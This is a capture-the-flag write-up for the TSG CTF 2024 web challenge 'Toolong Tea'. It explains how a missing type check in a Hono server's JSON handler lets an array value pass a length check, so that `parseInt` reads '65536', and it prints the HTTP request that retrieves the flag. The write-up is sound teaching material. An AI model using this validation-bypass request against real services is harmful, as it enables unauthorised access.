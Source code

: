 ```yaml
---
permalink: index.html
title: TSG CTF 2024 Web Challenge Writeup - Toolong Tea
description: My TSG CTF 2024 writeup for web challenge "Toolong Tea".
ogImageUrl: https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/toolong-tea-ogimage.png
---
```


# Toolong Tea

<details class="toc"><summary markdown="span"><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- Solved by: @siunam
- 143 solves / 100 points
- Author: @fabon
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Recently it's getting colder in Tokyo which TSG is based in. Would you like to have a cup of hot oolong tea? It will warm up your body.

[http://34.84.32.212:4932](http://34.84.32.212:4932)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241216111852.png)

## Enumeration

Index page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152321.png)

In here, we can submit a number. Let's try it!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152539.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152703.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152740.png)

When we clicked the "submit" button, it'll send a POST request to `/` with a JSON object:

```json
{
    "num":"123"
}
```

After that, the server respond "Please send 65536".

Let's try to submit number 65536!

```http
POST / HTTP/1.1
Host: 34.84.32.212:4932
Content-Type: application/json
Content-Length: 15

{"num":"65536"}
```

Response:

```http
HTTP/1.1 200 OK
[...]

Too long!
```

Hmm... "Too long!"?

To have a better understanding in this web application, we'll need to read its source code.

**In this challenge, we can download a [file](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/Web/Toolong-Tea/toolong_tea.tar.gz):**
```shell
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:30:58(HKT)]
└> file toolong_tea.tar.gz  
toolong_tea.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 20480
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:30:59(HKT)]
└> tar xvzf toolong_tea.tar.gz 
toolong_tea/
toolong_tea/Dockerfile
toolong_tea/compose.yaml
toolong_tea/package-lock.json
toolong_tea/package.json
toolong_tea/public/
toolong_tea/public/index.html
toolong_tea/public/main.js
toolong_tea/server.js
```

After reading the source code a little bit, we can have the following findings:
1. This web application is written in JavaScript with framework [Hono](https://www.npmjs.com/package/hono)
2. The main logic of this web application is in `toolong_tea/server.js`

In `toolong_tea/server.js`, we can see that there's a POST route `/`:

```javascript
import { Hono } from "hono";

const flag = process.env.FLAG ?? "TSGCTF{DUMMY}";

const app = new Hono();
[...]
app.post("/", async (c) => {
    try {
        const { num } = await c.req.json();
        if (num.length === 3 && [...num].every((d) => /\d/.test(d))) {
            const i = parseInt(num, 10);
            if (i === 65536) {
                return c.text(`Congratulations! ${flag}`);
            }
            return c.text("Please send 65536");
        }
        if (num.length > 3) {
            return c.text("Too long!");
        }
        return c.text("Please send 3-digit integer");
    } catch {
        return c.text("Invalid JSON", 500);
    }
});
```

In this route, if our JSON object's attribute `num` length is 3 and its value is all digit, it'll use `parseInt` to parse our string to integer (base 10). **If the parsed integer is `65536`**, it'll return the flag in the JSON response.

With that said, we need to send number `65536` to get the flag.

Wait, how? Isn't this if statement will check our attribute `num`'s length is equal to `3`?

```javascript
const { num } = await c.req.json();
if (num.length === 3 && [...]) {
    [...]
}
```

How can we bypass this?

Well... Since **it doesn't check the attribute `num` to be type string**, we can send the `num` attribute with value of **3 array items** like this:

```json
{
    "num":[
        "123",
        "456",
        "789"
    ]
}
```

By doing so, the `num`'s length is `3`, which bypasses the length check.

Now, here's the question: **Can `parseInt` parse an array?**

Let's try to test that!

```shell
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:31:38(HKT)]
└> node                      
[...]
> parseInt(["123", "456", "789"], 10);
123
```

Oh! It can! And it parsed the first item in the array!

## Exploitation

Armed with the above information, we can send the following POST request to get the flag!

```http
POST / HTTP/1.1
Host: 34.84.32.212:4932
Content-Type: application/json
Content-Length: 73

{
    "num":[
        "65536",
        "456",
        "789"
    ]
}
```

Response:

```http
HTTP/1.1 200 OK
[...]

Congratulations! TSGCTF{A_holy_night_with_no_dawn_my_dear...}
```

- **Flag: `TSGCTF{A_holy_night_with_no_dawn_my_dear...}`**

## Conclusion

What we've learned:

1. Bypass validation via missing type checking